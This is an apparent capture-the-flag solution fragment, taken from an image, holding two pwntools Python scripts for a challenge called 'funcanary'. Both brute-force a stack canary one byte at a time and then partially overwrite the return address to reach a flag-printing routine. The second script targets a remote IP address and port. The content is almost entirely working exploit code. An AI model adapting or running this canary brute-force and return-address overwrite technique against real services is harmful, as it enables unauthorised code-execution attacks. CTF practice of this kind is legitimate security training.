 ```c
r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)

canary = '\x00'

for j in  range(7):
    for i in range(0x100):
        payload = 0x68*'a' + canary + chr(i)
        sa(b"welcome\n",payload)
        a = p.recvline()
        if b'have fun' in a:
            canary += chr(i)
            break

print(canary)

i=0
while True:
    sa("welcome\n", b'd' * 0x68 + flat(canary) +b'm'*8+ p8(0x2E) +p8(0x2+0x10*i))
    i=i+1
    if(i==0x10):
        i=0
    if b"flag" in p.recvline():
        break;

```
#### 脚本二：利用页的大小累加控制第4位
```c
from pwn import *
context(log_level='debug',arch='amd64',os='linux')

#io = process('./funcanary' )
io = remote('123.56.135.185',42164)
io.recvuntil('welcome\n')
canary = b'\x00'

for k in range(7):
    for i in range(0x100):
        io.send('a'*0x68 + canary + chr(i))
        a = io.recvuntil("welcome\n")
        #print(a)
        if "fun" in a:
            canary += chr(i)
            print("canary: ", canary)
            break

cat_flag = 0x0231

for i in range(16):
    io.send('a'*0x68 + canary + 'b'*8 + p16(cat_flag))
    a = io.recvuntil("welcome\n")
    cat_flag += 0x1000
    if "flag" in a:
        print(a)
```